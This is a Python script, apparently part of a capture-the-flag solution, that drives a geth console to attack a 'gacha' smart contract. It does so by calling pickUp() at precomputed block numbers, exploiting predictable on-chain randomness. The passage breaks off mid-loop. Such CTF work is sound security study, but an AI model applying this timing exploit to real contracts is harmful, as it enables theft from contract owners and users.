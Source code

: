 ```python

# open geth
print "Opening geth"
# command = ['geth', '--datadir', '.', 'init', 'genesis.json']
# check_output(command)
command = ['geth', 'attach', 'geth.ipc']
p = process(command)
print "opened interactive session"

# create contract variable
print "Creating conract variable"
command = 'var gachaContract = web3.eth.contract([{"constant":false,"inputs":[{"name":"_seed","type":"uint256"}],"name":"initSeed","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[],"name":"played","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[],"name":"pickUp","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[],"name":"lastHash","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"player","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[{"name":"_password","type":"bytes"}],"name":"checkPassword","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"seed","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"owner","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"getItem","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"_password","type":"bytes"}],"name":"changeOwner","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[{"name":"_password","type":"bytes32"},{"name":"_seed","type":"uint256"},{"name":"_player","type":"address"}],"payable":false,"stateMutability":"nonpayable","type":"constructor"}]);'
print command
p.sendline(command)

# connect contract with address
print "Connecting contract with address"
command = 'var gacha2 = gachaContract.at("{}")'.format(contract_addr)
print command
p.sendline(command)

# define function that makes transactions at the correct block number
print "Defining function"
command = 'function func(myarray) { var cur = 0; function checkblock() { var fail = false; if (web3.eth.blockNumber == myarray[cur]) {console.log("=== picking up ===");  gacha2.pickUp(); cur++;} else if (web3.eth.blockNumber > myarray[cur]) {   console.log("TOO LATE!"); fail = true;  } if (cur == myarray.length) console.log("Go get the flag!");  else if (!fail) setTimeout(checkblock, 10); } checkblock();}'
print command
p.sendline(command)


account_ok = False
while not account_ok:
    time.sleep(1)

    # set default account
    print "Setting default account"
    command = 'eth.defaultAccount = web3.personal.listAccounts[0]'
    print command
    p.sendline(command)

    command = 'console.log("{}")'.format(delim)
    p.sendline(command)
    p.recvuntil(delim)
```